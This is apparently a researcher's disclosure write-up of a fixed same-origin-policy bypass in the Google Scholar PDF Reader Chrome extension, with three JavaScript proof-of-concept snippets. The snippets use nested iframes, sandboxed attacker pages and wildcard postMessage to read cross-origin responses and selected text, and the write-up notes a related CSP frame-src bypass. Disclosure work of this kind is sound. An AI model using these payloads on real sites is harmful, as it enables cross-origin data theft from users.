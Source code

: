 ```yaml
---
title: SOP bypass in Google Scholar PDF Reader (Fixed)
---
```

Google Scholar PDF Reader is apparently not an official Google app so was not awarded :( 
Webstore: <https://chromewebstore.google.com/detail/google-scholar-pdf-reader/dahenjhkoodjbpjheillcadbppiidmhp>  

# Leak 1 (With compromised renderer)

```js
// In the context of a content script on any website.
// Leaked data must be JSON.

let x = chrome.runtime.connect();
x.postMessage({type: 'fetch', method: 'GET', url: 'https://www.google.com/something.json', id: 1});
x.onMessage.addListener(console.log);
```

# Leak 2 (Without compromised renderer)

```js
// Embed victim PDF from attacker page.
let f=document.createElement('iframe');
f.width=1000;
f.height=1000;
f.src='https://services.google.com/fh/files/misc/bvp_order_form_google_06162020.pdf'; document.body.appendChild(f);

// Navigate nested, nested frame to attacker controlled page with null origin.
// I think this also creates a race condition version
f.contentWindow[0][0].location = 'https://terjanq.me/xss.php?h[Content-Security-Policy]=sandbox%20allow-scripts';

// On that attacker page, Make sure the target page to leak is the same-origin as the pdf https://services.google.com in this case.
onmessage = async (e) => {
 let reader = e.data.body.pipeThrough(new TextDecoderStream()).getReader();
 let result = await reader.read();
 console.log(result.value);
}
parent.parent.postMessage({type: 'fetch', url: 'https://services.google.com/example'}, '*');
```

# Leak 3 (Without compromised renderer)

```js
let f=document.createElement('iframe');
f.width=1000;
f.height=1000;
f.src='https://services.google.com/fh/files/misc/bvp_order_form_google_06162020.pdf';
document.body.appendChild(f);
```
Selected text gets leaked cross-origin.

```js
onmessage=console.log;
f.contentWindow[0].postMessage({type: 'getSelectedText'}, '*');
```

# Attack scenario
An attacker controlled website can bypass SOP if one of the follow is met:

- Attacker wants JSON data and has a compromised renderer bug
- Attacker wants data from a origin that contains a PDF which allows embedding

# frame-src 'self' bypass
Because of an `about:blank` edge case it's possible to navigate a nested, nested 3rd party iframe to it and bypass the child's CSP.
This has resulted in leaking data due to the victim sending sensitive information to a iframe using the `*` scope that can be hijacked via good navigation timings even with the CSP.  
A GitHub issue was opened about this <https://github.com/w3c/webappsec-csp/issues/662>
